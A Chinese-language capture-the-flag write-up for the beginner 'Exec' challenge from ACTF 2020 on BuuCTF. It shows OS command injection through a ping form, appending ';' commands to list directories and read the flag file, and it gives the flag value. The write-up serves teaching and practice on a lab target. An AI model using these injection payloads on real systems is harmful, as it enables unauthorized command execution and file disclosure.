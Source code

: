 ```yaml
---
tags:
  - BuuCTF
  - 新手
---
```


# \[ACTF 2020 新生赛\] Exec

## 前置工作

打开靶机，看到如下画面，标题叫 `command execution`，他的页面上看他能 PING，于是我就 PING 了一下 127.0.0.1，看起来像是 Linux 系统的 PING

![](https://p.sda1.dev/13/f3becaa967e319af51db168013617399/image.png)

## 并行命令

不由得想试试看接上分号 `;` 后进行命令并行，那就先传入一个 `127.0.0.1; ls ./`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.078 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.106 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.136 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.078/0.106/0.136 ms
index.php
```

貌似没有 Flag，那就再传入 `127.0.0.1; ls ../`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.071 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.133 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.113 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.071/0.105/0.133 ms
html
localhost
```

还是没有 Flag，那就再试 `127.0.0.1; ls ../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.137 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.131 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.121/0.137 ms
cache
empty
lib
local
lock
log
mail
opt
run
spool
tmp
www
```

再上面就是根目录 `/` 了，只能再试试看 `127.0.0.1; ls ../../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.104 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.126 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.110/0.126 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

终于看到了一个叫 `flag` 的文件，我们尝试下去读取他 `127.0.0.1; cat ../../../flag`，得到 Flag

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.149 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.123 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.123/0.149 ms
flag{c6000520-b03d-49c8-a628-2d26af095af7}
```